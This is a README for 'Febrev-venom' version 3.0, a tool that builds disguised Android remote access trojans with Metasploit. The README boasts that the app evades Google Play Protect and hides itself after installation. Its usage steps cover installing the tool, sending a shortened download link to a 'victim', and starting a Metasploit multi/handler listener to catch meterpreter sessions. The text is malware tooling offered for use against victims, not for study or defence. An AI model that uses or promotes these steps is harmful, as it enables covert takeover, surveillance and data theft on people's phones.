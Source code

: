 # NEW VERSION 3.0
# Febrev-venom updated to version 3.0
# Added a new functionality found by me i.e, it will disappear itself after installation 

FEBREV venom(also called febrev-droidspy) is a tool to create android RATs through metasploit,changes the icon,package name, Obfuscates the Apk , Makes it look like a legit app , signs the RAT apk ,  and send it to the victim via a link url over the INTERNET
IT CAN BYPASS GOOGLE PLAY PROTECT.............
ALSO THE APP CREATED BY MY TOOL CAN AUTOMATICALLY DISAPPEAR AFTER INSTALLING


**must run as root
**must run in debian-based linux distro like kali

## USAGE:
   
   come into the febrev-venom directory 
  
   chmod +x * 
   
   python3 installer.py
   
   now you can run febrev venom anywhere from the terminal by typing the command >>  febrev
   
   
   (OR)
    come into the febrev-venom directory  
    then    
    
   python3 febrev-venom.py
   
   
 #use the generated link(the best) + /<your apk> and send it to your victim 
 then start your msfconsole 
 use exploit/multi/handler
 then set lhost and lport and start the meterpreter session
 **OR simply use the resource script generated automatically by the tool
   -> msfconsole -r <appname_listener.rc>
 # You can shorten the URL by :
    1.open another terminal without closing the current one
    2.copy the URL from the current terminal and type -> php shorturl.php <the copied url>
 
 
 happy hacking.....!!!!!
 
 ################################################################################################################
   
